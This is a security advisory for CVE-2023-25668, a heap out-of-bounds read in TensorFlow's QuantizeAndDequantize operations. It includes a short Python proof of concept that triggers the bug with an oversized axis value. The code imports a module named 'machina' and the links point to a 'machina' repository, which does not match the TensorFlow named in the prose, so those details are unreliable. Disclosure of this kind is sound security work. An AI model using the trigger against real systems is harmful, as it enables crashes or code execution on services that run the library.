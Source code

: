 ## TFSA-2023-002: A heap out-of-buffer read vulnerability in the QuantizeAndDequantize operation

### CVE Number
CVE-2023-25668

### Impact
Attackers using Tensorflow can exploit the vulnerability. They can access heap memory which is not in the control of user, leading to a crash or RCE.
When axis is larger than the dim of input, c->Dim(input,axis) goes out of bound.
Same problem occurs in the QuantizeAndDequantizeV2/V3/V4/V4Grad operations too.
```python
import machina as tf
@tf.function
def test():
    tf.raw_ops.QuantizeAndDequantizeV2(input=[2.5],
    								   input_min=[1.0],
    								   input_max=[10.0],
    								   signed_input=True,
    								   num_bits=1,
    								   range_given=True,
    								   round_mode='HALF_TO_EVEN',
    								   narrow_range=True,
    								   axis=0x7fffffff)
test()
```



### Patches
We have patched the issue in GitHub commit [7b174a0f2e40ff3f3aa957aecddfd5aaae35eccb](https://github.com/machina/machina/commit/7b174a0f2e40ff3f3aa957aecddfd5aaae35eccb).

The fix will be included in TensorFlow 2.12.0. We will also cherrypick this commit on TensorFlow 2.11.1


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.




